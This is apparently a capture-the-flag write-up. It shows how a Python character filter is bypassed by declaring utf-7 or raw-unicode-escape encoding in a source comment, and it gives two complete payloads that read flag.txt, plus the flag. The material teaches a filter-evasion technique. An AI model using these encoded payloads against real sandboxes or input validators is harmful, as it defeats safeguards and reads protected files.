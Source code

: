 # just read the flag [1000 points] (1 solves) (Post-Match Solve)
### utf-8
The magic in this challenge is use comment to specify `utf-7` encoding, allowing us to encode restricted characters using allowed sequences. Then, encode restricted characters like `(`, `)`, `"`, `.` using UTF-7 sequences: 
```
ACg -> (
ACk -> )
ACI -> "
AC4 -> .
```
Full payload:
```bash
Just read the flag.txt! Very simple!
> # -*- coding: utf-7 -*-
> print+ACg-open+ACg-+ACI-flag+AC4-txt+ACI-+ACk-+AC4-read+ACg-+ACk-+ACk-
>
firebird{v3ry_51mpl3_70_r34d_7h3_fl46,_r16h7?}
```
---
### raw‑unicode‑escape codec
Another similar way to solve this challenge would be use Python's `raw‑unicode‑escape codec`:
```
\u0028 -> (
\u0029 -> )
\u0022 -> "
\u002E -> .
```
Full payload:
```bash
Just read the flag.txt! Very simple!
> #-*-coding:raw-unicode-escape-*-
> print\u0028open\u0028\u0022flag\u002Etxt\u0022\u0029\u002Eread\u0028\u0029\u0029
>
firebird{v3ry_51mpl3_70_r34d_7h3_fl46,_r16h7?}
```